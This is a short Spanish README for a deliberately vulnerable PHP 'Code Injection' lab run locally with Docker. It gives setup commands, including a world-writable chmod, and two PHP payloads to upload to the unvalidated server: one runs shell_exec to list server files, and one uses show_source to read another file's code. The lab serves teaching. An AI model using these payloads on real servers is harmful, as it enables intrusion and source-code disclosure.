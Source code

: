 # Code Injection

Descargar y Montar el servidor con Docker:

```bash
git clone https://github.com/IngenieroRicardo/CodeInjection
cd CodeInjection
sudo chmod -R a+rwx *
sudo docker-compose up
firefox localhost:8181
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente.



